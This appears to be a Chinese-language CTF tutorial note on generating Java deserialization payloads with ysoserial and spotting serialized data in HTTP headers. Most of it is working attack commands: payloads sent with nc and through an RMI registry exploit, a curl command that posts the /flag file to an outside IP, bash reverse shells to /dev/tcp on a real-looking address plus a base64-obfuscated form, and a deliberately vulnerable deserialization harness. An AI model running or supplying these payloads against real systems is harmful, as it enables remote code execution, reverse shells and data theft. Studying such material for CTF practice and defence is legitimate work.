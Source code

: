 Ysoserial 
<https://github.com/frohoff/ysoserial>
一款用于生成利用不安全的Java对象反序列化的有效负载的概念验证工具。
图形化优化版可以直接导出：<https://github.com/0ofo/Deswing> 

ctfshow入门题：<https://evo1ution.cn/2023/08/26/ctfshow-web4>


## **使用**
使用生成命令：
```
java -jar ysoserial.jar
java -jar ysoserial.jar [payload] '[command]'
```
案例：
```
java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
nc 10.10.10.10 1099 < groovypayload.bin

java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe

java -jar ysoserial.jar ROME "curl http://1.2.90.186:1234 -d @/flag" |base64
POST请求的数据体读/flag文件发送到服务器。
 
|base64在windows用不了。可以使用图像化版、python、BP插件java DeserializationScanner 导出base64的payload。
```
命令执行反弹注意：
```
Runtime.getRuntime().exec("bash -i >& /dev/tcp/ip/port 0>&1");
注意java这里反弹shell需要改良

bash -i >& /dev/tcp/1.92.88.247/2333 0>&1 需要base64编码再执行下面：

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjkyLjg4LjI0Ny8yMzMzIDA+JjE=}|{base64,-d}|{bash,-i}
```



^
## **复现**
对生成后的.bin文件进行反序列化，存在对应的依赖，则可以触发。
```
 java -jar ysoserial.jar CommonsCollections7 calc.exe >cc7.bin
 java -jar ysoserial.jar URLDNS http://dnslog.cn >url.bin
```
```
public static Object DeSerializable(String path) throws IOException, ClassNotFoundException {
    ObjectInputStream ois = new ObjectInputStream(new FileInputStream(path));
    return ois.readObject();
}

public static void main(String[] args) throws IOException, ClassNotFoundException {

    new ArrayStack();
    DeSerializable("src/cc7.bin");
}
```
```
<dependencies>
    <dependency>
        <groupId>commons-collections</groupId>
        <artifactId>commons-collections</artifactId>
        <version>3.2.1</version>
    </dependency>
</dependencies>
```

## **常规入口场景**
下方的特征可以作为序列化的标志参考：
一段数据以rO0AB开头，你基本可以确定这串就是Java序列化base64加密的数据。
或者如果以aced开头，那么他就是这一段Java序列化的16进制。
所以这串数据可能会被服务端拿去反序列化。

比如一个Authorization头是这样的，不是标准jwt，可能是序列化后的用户类
```
Authorization Bearer rO0ABXNyABhjbi5hYmMuY29yZS5tb2RlbC5Vc2VyVm92RkMxewT0OgIAAkwAAmlkdAAQTGphdmEvbGFuZy9Mb25nO0wABG5hbWV0ABJMamF2YS9sYW5nL1N0cmluZzt4cHNyAA5qYXZhLmxhbmcuTG9uZzuL5JDMjyPfAgABSgAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAAAAAAAAXQABWFkbWlu
```
可以使用burpsuite的java DeserializationScanner插件扫描可利用链，或者代码审计依赖利用链。
常规可以直接使用ysoserial.jar打。
